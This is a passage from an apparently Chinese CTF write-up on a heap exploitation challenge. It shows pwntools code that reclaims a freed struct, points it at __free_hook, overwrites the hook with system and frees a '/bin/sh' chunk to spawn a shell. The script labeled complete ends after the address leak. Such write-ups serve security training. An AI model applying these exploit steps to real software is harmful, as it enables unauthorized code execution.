    ```python
   ```

4. 申请回book3后，book3的description地址，作为我们任意写的地址，book3即为我们挟持的傀儡：

   ```python
   #申请回book3
   add(0x80,0x100,b"/bin/sh\x00",b"/bin/sh\x00")   #3
   #向存放book3的description地址的位置写入free_hook地址
   payload1 = p64(free_hook_addr)
   edit(1,payload1)
   #修改free_hook，用system覆盖
   payload2 = p64(system_addr)
   edit(3,payload2)
   ```

   ![image-20240715114434439](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151144704.png)

5. 最后free(3)即可拿到shell，完整EXP：

   ```python
   from pwn import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
    
   # p = remote("node5.buuoj.cn",28493)
   p = process("./pwn")
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')
   elf = ELF("./pwn")
   
   def add(name_size,description_size,name,description):
       p.sendlineafter(b'>',b'1')
       p.sendlineafter(b':',str(name_size).encode())
       p.sendlineafter(b':',name)
       p.sendlineafter(b':',str(description_size).encode())
       p.sendlineafter(b':',description)
   
   def edit(ID, description):
       p.sendlineafter(b'>',b'3')
       p.sendlineafter(b':',str(ID).encode())
       # p.sendlineafter(b':',str(len(content)))
       p.sendlineafter(b':',description)
   
   def show():
       p.sendlineafter(b'>',b'4')
       # p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b'>',b'2')
       p.sendlineafter(b':',str(index).encode())
   
   def change(author_name):
       p.sendlineafter(b'>',b'5')
       p.sendlineafter(b':',author_name)
   
   p.sendlineafter(b':',b'a'*32)
   add(0x10,0x110,b"aaaa",b"bbbb")
   add(0x80,0x100,b"FFFFFFFF",b"FFFFFFFF")
   free(2)
   show()
   p.recvuntil(b"a"*32)
   addr = u64(p.recv(6).ljust(8,b'\x00'))
   success("addr==>"+hex(addr))
   ```